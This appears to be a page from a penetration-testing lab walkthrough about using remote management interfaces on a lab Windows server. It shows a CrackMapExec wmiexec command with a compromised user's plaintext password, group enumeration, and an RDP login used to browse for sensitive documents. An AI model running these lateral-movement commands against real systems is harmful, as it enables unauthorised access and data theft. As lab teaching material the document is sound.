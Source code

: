 +++
title = "Remote Management Interfaces (RMI)"
weight = 3
hidden = false
+++

## Windows Management Instrumentation 
If we had valid credentials for a user with Administrator privileges (so far we do not) We could use wmiexec which is baked 
into CrackMapExec to administer our *192.168.0.130* target.

`cme smb 192.168.0.130 -u richard.f -p "Security24-7" -X dir`

```bash
192.168.0.130   445    FEYNMAN-WINSRV1  [*] Windows 10.0 Build 20348 x64 (name:FEYNMAN-WINSRV1) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
192.168.0.130   445    FEYNMAN-WINSRV1  [+] Sciencerocks.local\richard.f:Security24-7 
```

If this had worked we would see the output of our **dir** command, sadly it did not.

## Remote Desktop (RDP)
The RDP protocol is an interesting avenue of attack for the simple fact that a non-admin user can be provisioned with RDP access to a Windows machine.
While enumerating the Jenkins host we noticed that our compromised Active Directory user appears to be a member of the *Remote Desktop Users* group.

`net localgroup "Remote Desktop Users"`
```bash
out> Alias name     Remote Desktop Users
Comment        Members in this group are granted the right to logon remotely

Members

-------------------------------------------------------------------------------
SCIENCEROCKS\richard.f
The command completed successfully.

 err>
```

We can now access this target graphically using the following command.

`rdesktop 192.168.0.130`
![](./rdp1.png)

The biggest advantage we get from a graphical connection to a compromised target is convience. Uploading/Downloading files for example is much faster as is browsing the machine and searching for sensitive documents.
